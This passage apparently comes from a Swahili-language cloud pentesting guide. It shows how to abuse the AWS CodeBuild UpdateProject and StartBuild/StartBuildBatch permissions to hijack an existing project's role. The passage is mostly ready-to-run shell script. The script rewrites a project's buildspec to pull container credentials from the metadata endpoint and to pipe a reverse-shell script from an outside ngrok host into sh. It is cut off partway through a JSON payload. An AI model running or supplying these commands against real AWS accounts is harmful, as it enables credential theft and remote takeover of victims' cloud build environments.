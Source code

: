 ### `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Kama katika sehemu iliyopita lakini **bila ruhusa ya `iam:PassRole`**, unaweza kutumia ruhusa hii kubadilisha **miradi ya Codebuild iliyopo na kufikia jukumu walilopewa tayari**.

{{#tabs }}
{{#tab name="StartBuild" }}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
\"computeType\": \"BUILD_GENERAL1_SMALL\",
\"imagePullCredentialsType\": \"CODEBUILD\"
}
}"

# Note how it's used a image from AWS public ECR instead from docjerhub as dockerhub rate limits CodeBuild!

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
{{#endtab }}

{{#tab name="StartBuildBatch" }}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

# You need to indicate the name of the project you want to modify
JSON="{
\"name\": \"project_name\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nbatch:\\\\n  fast-fail: false\\\\n  build-list:\\\\n    - identifier: build1\\\\n      env:\\\\n        variables:\\\\n          BUILD_ID: build1\\\\n      buildspec: |\\\\n        version: 0.2\\\\n        env:\\\\n          shell: sh\\\\n        phases:\\\\n          build:\\\\n            commands:\\\\n              - curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh\\\\n      ignore-failure: true\\\\n\"
},
\"artifacts\": {
```